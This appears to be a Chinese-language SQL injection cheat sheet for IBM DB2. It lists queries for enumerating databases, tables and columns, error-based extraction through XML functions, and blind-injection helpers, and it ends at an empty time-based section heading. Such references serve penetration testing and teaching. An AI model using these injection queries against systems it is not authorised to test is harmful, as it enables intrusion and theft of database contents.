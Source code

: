 ## DB2 方法论

| 描述           | SQL 查询                                              |
| --------------- | ---------------------------------------------------- |
| 列出数据库     | `SELECT distinct(table_catalog) FROM sysibm.tables`  |
| 列出数据库     | `SELECT schemaname FROM syscat.schemata;`            |
| 列出列         | `SELECT name, tbname, coltype FROM sysibm.syscolumns`|
| 列出表         | `SELECT table_name FROM sysibm.tables`              |
| 列出表         | `SELECT name FROM sysibm.systables`                 |
| 列出表         | `SELECT tbname FROM sysibm.syscolumns WHERE name='username'` |

## DB2 基于错误的注入

```sql
-- 返回所有以一个 XML 格式字符串的形式
select xmlagg(xmlrow(table_schema)) from sysibm.tables

-- 同上，但没有重复元素
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)

-- 返回所有以一个 XML 格式字符串。
-- 可能需要 CAST(xml2clob(… AS varchar(500)) 来显示结果。
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables 
```

## DB2 基于盲注的注入

| 描述           | SQL 查询                                              |
| --------------- | ---------------------------------------------------- |
| 子字符串       | `select substr('abc',2,1) FROM sysibm.sysdummy1`     |
| ASCII 值       | `select chr(65) from sysibm.sysdummy1`               |
| CHAR 转 ASCII  | `select ascii('A') from sysibm.sysdummy1`            |
| 第 N 行选择     | `select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only` |
| 按位与         | `select bitand(1,0) from sysibm.sysdummy1`           |
| 按位与非       | `select bitandnot(1,0) from sysibm.sysdummy1`        |
| 按位或         | `select bitor(1,0) from sysibm.sysdummy1`            |
| 按位异或       | `select bitxor(1,0) from sysibm.sysdummy1`           |
| 按位取反       | `select bitnot(1,0) from sysibm.sysdummy1`           |

## DB2 基于时间的注入
